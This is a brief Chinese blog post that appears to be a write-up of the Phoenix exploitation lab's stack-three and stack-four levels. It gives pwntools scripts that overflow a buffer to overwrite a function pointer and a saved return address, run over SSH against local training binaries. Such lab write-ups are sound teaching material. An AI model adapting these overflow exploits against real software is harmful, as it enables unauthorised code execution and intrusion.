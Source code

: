 最近又是数模又是开学的，很难受，还是看看远方的~~水~~入门题吧。没有动态基址，还是比较简单的。

## stack-three

覆盖一个即将被调用的函数指针的数据，跟前面差不多。

```python
from pwn import *
shell = ssh("user", "localhost", password="user", port=2222)

s = b"a" * 0x40 + p64(0x40069d)
sh = shell.run(b"/opt/phoenix/amd64/stack-three")
sh.recvlines(1)
sh.sendline(s)
print(sh.recvlines(2))

```

## stack-four

覆盖栈上的返回地址。

![image-20230225202058128](https://s2.loli.net/2023/02/25/YB5ux4CUSAeowPv.png)

`0x648-0x5f0=88`

```python
from pwn import *
shell = ssh("user", "localhost", password="user", port=2222)

s = b"a" * 88 + p64(0x40061d)
sh = shell.run(b"/opt/phoenix/amd64/stack-four")
sh.recvlines(1)
sh.sendline(s)
print(sh.recvlines(2))
```

